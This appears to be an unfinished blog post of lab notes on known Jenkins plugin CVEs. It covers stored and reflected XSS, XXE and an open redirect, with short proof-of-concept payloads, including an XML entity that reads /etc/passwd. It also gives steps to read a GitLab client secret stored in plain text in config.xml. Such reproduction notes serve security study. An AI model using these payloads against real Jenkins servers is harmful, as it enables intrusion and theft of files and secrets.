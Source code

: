 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- [https://www.jenkins.io/security/advisories/](https://www.jenkins.io/security/advisories/)


## Missing permission


## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- [https://plugins.jenkins.io/dashboard-view/](https://plugins.jenkins.io/dashboard-view/)
	- Requires Jenkins 2.277.1

#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")

### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- [https://plugins.jenkins.io/jenkinswalldisplay/](https://plugins.jenkins.io/jenkinswalldisplay/) 
	- Requires Jenkins 1.580

#### Exploit
- click Wall Display
- `customTheme=</style><script>alert("Liodeus")</script>`

* * *

## CSRF

* * *

## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- [https://plugins.jenkins.io/pom2config/](https://plugins.jenkins.io/pom2config/)
	- Requires Jenkins 1.509.1

#### Exploit
- Create a new freestyle project
- Go on it - click Pom2Config
- Craft a .xml with exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

* * *

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- Client ID --> ThisIsASecretID
- Client Secret --> ThisIsASecretPASSWORD
- docker ps - get docker:dind name
- docker exec -it pensive_shannon /bin/bash
- cd /var/jenkins_home
- cat config.xml
- Secret in plain text

* * *

## Path traversal

* * *

## Agent-to-controller security bypass

* * *

## Arbitrary file read


## Denial of service

* * *

## Incorrect permission

* * *

## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- GitLab Web URI --> URL
- Save
- Go to localhost:8080
- You are redirect to URL
